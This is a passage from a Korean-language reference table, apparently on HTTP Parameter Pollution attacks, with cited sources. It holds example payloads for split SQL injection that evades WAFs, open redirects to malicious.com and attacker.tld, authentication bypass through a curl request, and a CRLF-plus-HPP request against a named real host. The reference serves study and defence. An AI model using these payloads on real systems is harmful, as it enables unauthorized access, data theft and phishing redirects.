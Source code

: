       <td>서버가 내부적으로 덧붙이는 파라미터(sender)를 공격자가 중복 주입한다. 서버가 첫 번째 인스턴스만 제거할 경우, 두 번째 악성 파라미터가 백엔드로 전달되어 다른 사용자의 계좌에서 출금하는 등의 공격이 가능해진다. </td>
      <td>[4]</td>
    </tr>
    <tr>
    <tr>
      <td>Open Redirect</td>
      <td><pre><code>?redirectURL=internalPage&redirectURL=&lt;http://malicious.com></code></pre></td>
      <td>정상적인 내부 페이지로의 리디렉션 파라미터 뒤에 악성 외부 사이트로의 리디렉션 파라미터를 추가한다. 서버가 중복 파라미터를 잘못 처리할 경우(예: 값 병합 또는 마지막 값 우선), 사용자는 의도치 않게 악성 사이트로 리디렉션될 수 있다. </td>
      <td>[5]</td>
    </tr>
    <tr>
      <td>SQL Injection</td>
      <td><pre><code>/index.aspx?page=select 1&page=2,3 from table?id=5;select+1&id=2&id=3+from+users...</code></pre></td>
      <td>WAF가 탐지하기 어려운 형태로 SQL 인젝션 페이로드를 여러 파라미터에 분할하여 전송한다. 백엔드 애플리케이션이 이 값들을 하나로 병합하면서 완전한 공격 구문이 재조립되어, 비인가된 데이터베이스 명령을 실행한다. </td>
      <td>[1], [2], [6]</td>
    </tr>
    <tr>
      <td>Authentication Bypass via Framework Parsing Mismatch</td>
      <td><pre><code>curl -X GET "https://target.com/user?user_id=1234" \
-H "Content-Type: application/json" \
-d '{"user_id": 9999}'</code></pre>
        <pre><code> PUT /api/v1/teams/team1/... 
<br> -d ':team_name=team2' </code> </pre> </td>
      <td>프론트엔드와 백엔드, 또는 애플리케이션 내의 단계별 보안 검사 로직이 서로 다른 소스(URL, 요청 본문 등)의 파라미터를 신뢰하는 불일치를 이용해 인증을 우회하고 다른 사용자의 데이터나 리소스에 접근한다. (수평적 권한 상승)</td>
      <td>[7], [10]</td>
    </tr>
    <tr>
      <td>HPP and Open Redirect Combination</td>
      <td><pre><code>POST /registered/main.pl?cmd=unifiedPayment... HTTP/1.1
CRLF: Injection HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=xxx;
Content-Type: application/x-www-form-urlencoded
cmd=unlockCamp&retpath=//attacker.tld/</code></pre></td>
      <td>CRLF Injection으로 생성된 두 번째 요청의 본문에 HPP(HTTP Parameter Pollution)를 이용해 cmd 파라미터(unifiedPayment -> unlockCamp)를 조작하고, retpath 파라미터에 외부 URL을 지정하여 Open Redirect를 유발한다.</td>
      <td>[8]</td>
    </tr>
  </tbody>
</table>

### Bypass
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Split-Payload Concatenation </td>
      <td><pre><code>/index.aspx?page=select 1&page=2,3 from table?
id=5;select+1&id=2&id=3+from+users...</code></pre></td>
      <td>WAF가 탐지하기 어려운 형태로 SQL 인젝션 같은 공격 페이로드를 여러 파라미터에 분할하여 전송한다. 백엔드 애플리케이션이 이 값들을 하나로 병합하면서 완전한 공격 구문이 재조립되어 WAF를 우회한다.</td>